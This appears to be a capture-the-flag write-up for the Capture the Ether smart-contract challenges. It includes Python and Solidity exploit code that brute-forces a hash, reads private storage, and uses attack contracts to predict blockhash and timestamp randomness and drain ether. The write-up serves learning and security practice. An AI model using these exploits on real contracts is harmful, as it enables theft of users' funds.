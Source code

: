 # Capture The Ether WRITEUP


Writeup of the different challenges of [Capture the ether](https://capturetheether.com/)

# Warmup

## 2) Call Me

Pretty simple, you just call the function `callMe()`.

## 3) Choose a nickname

Again the challenge is simple, you call the function `setNickame()` with your nickname.
2 subtilities:
- One, you need to call `setNickname()` on the CaptureTheEther contract at address `0x71c46Ed333C35e4E6c62D32dc7C8F00D125b4fee` and not the address given on the left.
- Two, you need to be sure to encode your nickname correctly. The contract check the leftmost character to see if its 0 or not so you need to be sure that your nickname is save as 0xYOURNICKNAMEINHEX00000000000000000000...0 instead of 0x00000000000000000000...0YOURNICKNAMEINHEX.

# Lotteries

## 4) Guess the number

Simply call `guess()` with 42 as argument and msg.value equal to 1 ether.

## 5) Guess the secret number

We need to find which uint8 has a keccak256 hash equal to the one save in the contract. We can easily brute force the solution with a loop:
```python
for i in range(2 ** 8):
    # if the hash matches, guess the number
    if Web3.solidityKeccak(["uint8"], [i]).hex().upper() == answerHash.upper():
        contract.guess(i, {"from": account, "value": ONE})
```
Then we send the transcation like the previous challenge.

## 5) Guess the random number

We need to find the number saved during the creation of the contract. Since the variable doesn't have the `public` visibility modifer, solidity didn't create a getter `answer()`, but we can still look at the contract storage and find the number:
```python
answer = int(w3.eth.get_storage_at(contract_address, 0).hex(), base=16)
```
Then we send the transcation like the previous challenge.

## 6) Guess the new number

Similar to the previous challenges, we need to find the right number, only now, the number is generated at the same time we are trying to guess it.
```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
```

To guess this number, we create an attack contract that will do the same calculation as the target contract and will then "guess" the correct answer. Since the calculations are done during the same transaction, they will have the same block.number and timestamp:
```solidity
uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
GuessTheNewNumber(target_contract).guess{value: msg.value}(answer);
payable(msg.sender).transfer(address(this).balance);
```
We need to slightly modify the syntax since we are using solidity version 0.8.0 so `now` becomes `block.timestamp` and `keccak(x,y)` become `keccak256(abi.encodePacked(x,y))`
Then our `attack()` function call the `guess()` function with a `msg.value` of `1 ether` and we then transfer the received ether to our EOA attacker address. We also need to make sure our attack contract has a `receive()` function to receive the ether from the target contract:
```solidity
receive() external payable {}
```


## 6) Predict the future

We need to guess a number between 0 and 9 (because of the `% 10`) and call `lockInGuess(uint8 n)`. Then with a different transaction, check wheter our guess was correct or not by calling `settle()`. The problem is, if the guess was wrong, we need to guess again and each guess cost us 1 ether:
```solidity
function lockInGuess(uint8 n) public payable {
    require(guesser == 0);
    require(msg.value == 1 ether); // need to pay 1 ether to guess

    guesser = msg.sender;
    guess = n;
    settlementBlockNumber = block.number + 1; 
}

function settle() public {
    require(msg.sender == guesser); // need to call lockInGuess() each time we settle
    require(block.number > settlementBlockNumber);// has to be a different transaction (and in a different block)

    uint8 answer = uint8(
        keccak256(block.blockhash(block.number - 1), now)
    ) % 10; // calculate the answer

    guesser = 0; //reset, so if the next line is wrong, we need to call lockInGuess() again
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```
The trick is to randomly guess a number, say 8, and then with a different transaction check whether that transaction will be in a block where the answer will be equal to our guess. If it is, we call `settle()` and win, if it's not, we simply abort the transaction, lost some gas fee, and try again.
```solidity
function attack() public returns (bool) {
    uint8 answer = uint8(
        uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        )
    ) % 10; // compute the answer just like the target contract will, with the same params (`block.number` and `block.timestamp`)
    require(answer == 8); // make sure our answer is correct, if not revert
    PredictTheFutureChallenge(target).settle(); // if its correct, we call settle()
    payable(msg.sender).transfer(address(this).balance);// and transfer our ether from our contract to our attacker address
}
```
Now we just need to send the same transaction where we call `attack()` until the tx goes through and we recover our ethers. We only lose some gas fee.

